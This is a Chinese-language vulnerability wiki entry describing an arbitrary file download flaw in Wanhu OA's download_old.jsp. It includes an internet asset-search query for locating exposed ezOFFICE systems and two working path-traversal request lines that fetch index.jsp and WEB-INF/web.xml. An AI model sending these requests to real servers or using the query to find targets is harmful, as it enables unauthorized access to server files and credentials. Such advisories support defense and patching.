 # 万户OA download_old.jsp 任意文件下载漏洞

## 漏洞描述

万户OA download_old.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>万户OA </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](/assets/PeiQi-Wiki/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220313174600224.png)

验证POC

```javascript
/defaultroot/download_old.jsp?path=..&name=x&FileName=index.jsp
/defaultroot/download_old.jsp?path=..&name=x&FileName=WEB-INF/web.xml
```

![img](/assets/PeiQi-Wiki/img/1646041831774-193db33c-c438-459e-918a-bdae1a1a1270.png)